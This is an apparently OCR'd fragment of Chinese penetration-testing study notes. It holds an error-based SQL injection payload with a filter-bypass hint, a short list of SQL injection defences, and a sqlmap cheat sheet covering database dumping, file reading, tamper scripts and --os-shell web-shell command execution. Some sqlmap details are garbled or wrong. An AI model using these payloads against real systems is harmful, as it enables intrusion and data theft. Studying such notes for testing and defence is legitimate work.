 ~~~shell
id=1'%09and%09updatexml(1,concat(0x7e,database(),0x7e),1)%09or%09'1'='1
# 思路
若是and-->And?-->anandd?
order里面有or，所以无法用
~~~

### sql注入常见的防御方法有哪些

~~~shell
1、分级管理
2、参数传值
3、基础过滤与二次过滤
4、使用安全参数
5、漏洞扫描
6、多层验证
7、数据库信息加密
~~~

fastTunnel 跨平台内网穿透工具

### sqlmap

~~~shell
sqlmap -h：sqlmap.highlight.ink
# get
sqlmap -u “URL” -p id 【-v 3:详情】【--batch：默认填充】
# post
sqlmap -u “URL” --form:找表单 --batch
sqlmap -u “URL” --data=uname=passwd=subimt --batch
-r：文件
--level：默认5级，数字越低越仔细
###爆库
sqlmap -u "URL" --dbs/--tables/--columns
sqlmap -u "URL" -D security -T admin --dump
###
sqlmap -u "URL" --level=5 --risk=3
--file-read"c:/test.txt"
# shell
--os-shell
--sql-shell
# sql转义
sqlmap --tamper="space2comment.py,space2plus.py"
# 路径
sqlmap --tamper="space2comment.py,space2plus.py"

### os-shell
对于mysql数据库来说，--os-shell的本质就是写入两个php文件，其中的tmpugvzq.php可以让我们上传文件到网站路径下；然后sqlmap就会通过上面这个php上传一个用于命令执行的tmpbylqf.php到网站路径下，让我们命令执行，并将输出的内容返回sqlmap端。
# 参数
-h 参数查看以及用法
--data抓取其post提交的数据填入
--random-agent 使用任意的user-Agent爆破
--cookie"抓取的cookie"
~~~
